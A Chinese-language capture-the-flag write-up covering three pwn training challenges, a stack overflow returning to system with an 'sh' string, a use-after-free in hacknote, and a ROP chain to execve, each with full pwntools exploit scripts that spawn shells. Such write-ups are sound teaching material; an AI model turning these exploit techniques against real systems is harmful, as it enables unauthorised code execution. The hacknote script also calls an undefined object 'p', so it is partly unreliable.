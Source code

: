 ```yaml
---
title: Writeup for First Week
mathjax: true
date: 2021-01-14 15:15:17
tags: pwn
---
```


## ciscn_2019_ne_5

傻了傻了，居然没想到用ROPgadget来找字符串，而只是在IDA Pro中看了而已。

system函数已经在Print函数中给出来了。只要有一个`/bin/sh`就够了。

但是这样也不准确，只需要`sh`就可以了。

以后找字符串的时候，直接用ROPgadget，不只能找gadget好吧。。。
```
➜  ciscn_2019_ne_5 ROPgadget --binary pwn --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

```python
from pwn import *

p = remote('node3.buuoj.cn', 27077)
elf = ELF('./pwn')
system_plt = elf.plt['system']

payload = b'a' * 0x48 + b'b' * 0x4 + p32(system_plt) + p32(0xdeadbeef) + p32(0x080482ea)
p.sendlineafter('Please input admin password:', 'administrator')
p.sendlineafter('0.Exit\n:', '1')
p.sendlineafter('Please input new log info:', payload)
p.sendlineafter('0.Exit\n:', '4')

p.interactive()
```

## HITCON-training hacknote

UAF第一道题。

UAF即free掉之后却没有置0，这个残留指针可以再被利用。

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./pwn')


def add(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delete(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


magic_addr = 0x08048986

add(32, "aaaa")
add(32, "ddaa")

delete(0)
delete(1)

add(8, p32(magic_addr))

show(0)

p.interactive()
```

## ciscn_2019_s_3

这道题挺好玩的，要好好记录一下。

IDA翻译成C出来根本没法读，只能看汇编（汇编更容易看

主程序在`vuln`函数里，先从`%rsp - 0x10`的地址开始读入至多0x400个字符，然后输出0x30个字符，显然栈溢出。

然后还有个`gadget`函数，很清楚地能看出`mov $0xf, %rax`和`mov $0x3b, %rax`这两个gadget，第一个是sigreturn的调用号，第二个就是execve的调用号。

然后针对这两个gadgets，分别有SROP和利用通用gadget做ROP这两种方法。

SROP在网上看到的似乎打不通，就只用普通ROP的做法。

由于需要控制rdx，需要辛苦点用上通用gadget。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

from pwn import *

context.log_level = 'debug'
p = remote('node3.buuoj.cn', '28690')
# p = process('./pwn')
elf = ELF('./pwn')
main_addr = elf.symbols['main']

csu_end = 0x40059a
csu_front = 0x400580
syscall_ret = 0x400517
mov_rax_ret = 0x4004e2
pop_rdi = 0x4005a3

payload1 = b'A' * 0x10 + p64(main_addr)
p.sendline(payload1)
p.recv(0x20)
buf = p.recv()[:8]
leak_addr = u64(buf)
binsh_addr = leak_addr - 0x138
log.info(hex(binsh_addr))

payload = b'/bin/sh\x00' + b'A' * 0x8 + p64(mov_rax_ret)
payload += p64(csu_end) + p64(0) + p64(1) + p64(binsh_addr + 0x10) + p64(0) + p64(0) + p64(0)
payload += p64(csu_front) + p64(0) * 7
payload += p64(pop_rdi) + p64(binsh_addr)
payload += p64(syscall_ret)
p.sendline(payload)
p.interactive()
```
